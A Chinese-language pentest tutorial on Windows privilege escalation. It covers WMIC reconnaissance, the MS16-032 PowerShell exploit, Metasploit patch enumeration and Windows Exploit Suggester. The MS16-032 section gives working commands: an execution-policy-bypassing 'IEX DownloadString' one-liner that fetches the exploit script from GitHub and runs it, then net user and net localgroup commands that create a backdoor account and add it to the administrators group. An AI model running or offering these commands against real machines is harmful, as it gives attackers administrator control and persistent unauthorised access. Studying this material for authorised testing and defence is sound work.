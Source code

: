 常见的EXP可以参考：https://github.com/SecWiki/windows-kernel-exploits

wmic小知识：WMIC是windows平台上的命令行工具，WMIC不仅可管理本地计算机，还可以管理同一域的所有计算机（需要一定的权限），且在被管理的计算机上不必事先安装WMIC。WMIC在信息收集跟后渗透测试阶段非常实用，可以调取和查看目标机器的进程、服务、用户、用户组、网络连接、硬盘信息、网络共享信息、已安装的补丁、启动项、已安装的软件、操作系统的相关信息和时区。

如果目标机器中存在MS16-032(KB3139914)漏洞，那么不仅可以利用Metasploit进行提权，还能利用Powerhell下的Invoke-MS16-032.ps1脚本进行提权:https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-032/MS16-032.ps1。通过Invoke-MS16-032.ps1脚本可以执行任意程序，且可以带参数执行（全程无弹窗）。

把`Invoke-MS16-032.ps1`脚本上传到目标机器中（也可远程下载并运行），然后执行命令添加一个用户名为`wukong1`密码为`CVTE@123`的用户

```
注：在测试的过程发现运行成功，但是一直没有添加完成用户，后排查在设置密码的需一定的复杂度才可
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032 -Application cmd.exe -commandline '/c net user wukong1 CVTE@123 /add'
```

![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/14-20210420162525134.png)

远程下载、提权、添加用户，命令如下

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user wukong CVTE@123 /add'"

#提权放入管理员组
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup administrators wukong /add'"
```

![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/15-20210420162610442.png)

### 利用Metasploit发现缺失补丁

利用Metasploit中的`post/windows/gather/enum_patches`模块，可以根据漏洞编号快速找出系统中缺少的补丁(特别是Metasploit模块的补丁)

![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/6-20210420163156291.png)

### Windows Exploit Suggester

Gotham Digital Security 发布了一个名为`Windows Exploit Suggester`的工具：https://github.com/AonCyberLabs/Windows-Exploit-Suggester 。该工具可以将系统中已经安装的补丁程序与微软的漏洞数据库进行比较，并可以识别可能导致权限提升的漏洞，只需要有目标系统的信息就可。

使用`systeminfo`命令获取当前系统补丁安装情况，并将补丁信息导入`patches.txt`

 ![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/7-20210420163229665.png)

执行如下命令，从微软官方网站自动下载安全公告数据，下载的文件会自动在当前目录下以Excel电子表格的形式保存，测试的过程发现这里用python3执行会报错，用python2可以

```
python windows-exploit-suggester.py --update
```

 ![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/9.png)
